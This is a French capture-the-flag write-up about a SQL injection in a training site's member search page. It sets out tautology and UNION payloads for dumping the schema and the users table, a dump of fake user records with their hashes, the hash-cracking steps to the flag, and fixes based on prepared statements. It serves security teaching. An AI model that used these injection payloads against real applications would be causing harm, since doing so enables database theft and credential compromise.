


## **SQL Injection - Page Membre**

### **Description**
La page de recherche des membres (`member search`) est vulnérable à une **injection SQL**.
**Problème :** Les données en entrée ne sont pas correctement filtrées, permettant à un attaquant d’injecter du code SQL arbitraire via les paramètres GET.

### **Exploitation**
- En injectant `1 or 1=1`, un attaquant peut contourner la clause `WHERE` et afficher tous les utilisateurs.
- Exemple de requête vulnérable :
```sql
SELECT id, firstname, surname FROM users WHERE id = $_GET['id']
```
- En utilisant l’instruction `UNION`, l’attaquant peut afficher des données issues d'autres tables :
```sql
1 or 1=1 UNION SELECT table_name, column_name FROM information_schema.columns
```
- Cela permet de découvrir la structure complète de la base, comme la table `users` et ses colonnes :
  - `user_id`, `first_name`, `last_name`, `town`, `country`, `planet`, `Commentaire`, `countersign`

- Requête d’exploitation ayant permis d'obtenir des données sensibles :
```sql
1 or 1=1 UNION SELECT Commentaire, countersign FROM users
```



### **Exemples d’exploitation**
- **Exfiltration de données** : récupération des identifiants, commentaires, mots de passe hashés.
- **Compréhension de la logique applicative** : découverte d’une consigne cachée dans le champ "Commentaire" :
```
Decrypt this password -> then lower all the char. Sh256 on it and it's good !
MD5: 5ff9d0165b4f92b14994e5c685cdce28
Plaintext (via reverse MD5): FortyTwo
fortytwo (ASCII) → SHA256: 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```



### **Cas d’usage**
- Obtenir un dump complet de la base de données.
- Extraire des informations sensibles sur les utilisateurs.

### **Recommandations**
- **Utiliser des requêtes préparées** (via `PDO::prepare` en PHP ou ORM).
- **Ne jamais insérer directement des données utilisateur dans des requêtes SQL**.
- **Valider et échapper toutes les entrées utilisateur**.
- **Limiter les droits de l’utilisateur SQL** utilisé par l’application.

### **Exemple de code sécurisé (PHP + PDO)**

```php
\$pdo = new PDO('mysql:host=localhost;dbname=test', 'user', 'pass');
\$stmt = \$pdo->prepare("SELECT id, firstname, surname FROM users WHERE id = :id");
\$stmt->execute(['id' => \$_GET['id']]);
\$result = \$stmt->fetchAll();
```

### **Extrait de données (exploité via sqlmap)**

| user_id | town     | planet | country   | last_name | first_name     | Commentaire                                                                   | countersign                      |
|---------|----------|--------|-----------|-----------|----------------|-------------------------------------------------------------------------------|----------------------------------|
| 1       | Honolulu | EARTH  | America   | Obama     | Barack Hussein | Amerca !                                                                      | 2b3366bcfd44f540e630d4dc2b9b06d9 |
| 2       | Moscou   | Earth  | Russia    | Staline   | Joseph         | ????? ????????????? ?????????                                                 | e083b24a01c483437bcf4a9eea7c1b4d |
| 3       | 42       | 42     | 42        | GetThe    | Flag           | Decrypt this password -> then lower all the char. Sh256 on it and it's good ! | 5ff9d0165b4f92b14994e5c685cdce28 |
